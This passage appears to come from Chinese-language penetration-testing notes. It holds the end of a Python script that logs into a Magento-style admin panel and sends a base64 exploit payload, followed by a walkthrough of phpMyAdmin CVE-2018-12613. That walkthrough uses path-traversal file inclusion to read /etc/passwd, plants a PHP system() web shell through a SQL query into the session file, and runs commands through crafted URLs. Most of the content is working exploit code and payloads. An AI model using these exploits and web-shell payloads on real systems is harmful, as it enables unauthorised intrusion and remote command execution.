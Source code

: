 ```python
#br.form.new_control('text', 'login[username]', {'value': username})  # Had to manually add username control.
#br.form.fixup()
#br['login[username]'] = username
#br['login[password]'] = password

userone = br.find_control(name="login[username]", nr=0)
userone.value = username
pwone = br.find_control(name="login[password]", nr=0)
pwone.value = password

br.method = "POST"
request = br.submit()
content = request.read()

url = re.search("ajaxBlockUrl = \'(.*)\'", content)
url = url.group(1)
key = re.search("var FORM_KEY = '(.*)'", content)
key = key.group(1)

request = br.open(url + 'block/tab_orders/period/7d/?isAjax=true', data='isAjax=false&form_key=' + key)
tunnel = re.search("src=\"(.*)\?ga=", request.read())
tunnel = tunnel.group(1)

payload = base64.b64encode(payload)
gh = md5(payload + install_date).hexdigest()

exploit = tunnel + '?ga=' + payload + '&h=' + gh

try:
    request = br.open(exploit)
except (mechanize.HTTPError, mechanize.URLError) as e:
    print e.read()
```


### PhpMyAdmin
**Version 4.8.0 ~ 4.8.1  - 远程命令执行漏洞 (CVE-2018-12613)**

存在 LFI  ：`http://10.129.214.206/phpmyadmin/index.php?target=sql.php%3f/../../../../../etc/passwd`

打开 burpsuite，提交 sql 查询抓 cookie 数值
```sql
SELECT '<?php system($_GET["cmd"]);?>'

Cookie: phpMyAdmin=c7b5dm84puvbpfr8bvcv0sbhbn8ncie2; pma_lang=en; pmaUser-1=
```
访问 :
```http
http://10.129.214.206/phpmyadmin/?cmd=id&target=db_sql.php%3f/../../../../../var/lib/php/sessions/sess_<Cookie>

http://10.129.214.206/phpmyadmin/?cmd=id&target=db_sql.php%3f/../../../../../var/lib/php/sessions/sess_c7b5dm84puvbpfr8bvcv0sbhbn8ncie2
```
![](photos/Pasted%20image%2020240402191749.png)
